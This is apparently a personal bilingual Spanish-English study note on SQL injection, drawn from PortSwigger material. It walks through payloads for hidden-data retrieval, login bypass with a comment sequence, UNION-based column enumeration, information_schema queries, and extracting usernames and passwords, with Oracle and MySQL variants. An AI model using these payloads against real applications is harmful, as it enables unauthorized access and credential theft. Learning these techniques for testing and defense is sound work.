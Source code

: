 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

*** CTRL + U to url enconde en Burp Suite***

>' ORDER BY 1--

>' ORDER BY 2--

>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

> 'UNION SELECT NULL,NULL,NULL--

Ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

(falta investigar los datos de la base como nombre de tabla etc) 
#### Enumerar datos de la base de datos

La mayoría de los tipos de bases de datos (con la notable excepción de Oracle) tienen un conjunto de vistas llamado "information_schema" que proporciona información sobre la base de datos. Por ejemplo las ***tablas***

```
SELECT * FROM information_schema.tables

```





#### Paso 3 

Sacar datos

> ' UNION SELECT username, password FROM users--

### Oracle DB

#### Tabla dual

En el caso de una base de datos ORACLE para la sentencia ***SELECT*** para realizar cualquier query necesitamos decirle a que tabla. Para hacer frente a este problema Oracle creo la tabla dual que es accesible para todos los usuarios.

>In Oracle, the SELECT statement must have a FROM clause. However, some queries don’t require any table for example:
>Fortunately, Oracle provides you with the DUAL table which is a special table that belongs to the schema of the user SYS but it is accessible to all users.
The DUAL table has one column named DUMMY whose data type is VARCHAR2() and contains one row with a value X


```
SELECT * FROM dual;
```

```

'union select 'a',null from dual--

'union select banner,null from v$version--

```

Por o tanto para intentar el ataque de UNION tenemos que llamar a esta tabla o usar el ORDER BY como primer paso pero despues para el segundo paso ***ver que datos tienen esas columnas (STRINGS O NUMEROS) si es que no lo podemos inferir por los datos de la pagina EN la query usamos la tabla dual***. Para sacar la version de oracle lo intuimos al mandar la query y que no nos responda despues mandarla con la tabla dual y que si nos responda.

### MYSQL

Para la base de datos de mysql hay que tener algunas cosideraciones por ejemplo el comentario ya no es -- si no # 
si se puede usar -- pero requiere que se use un espacio al ultimo asi "-- " (sin comillas solo es el ejemplo)

```
'UNION SELECT @@version,NULL#
'union select @@version,null--

```

# Bibliografia o Recursos Consultados

> https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

>https://portswigger.net/web-security/sql-injection/cheat-sheet

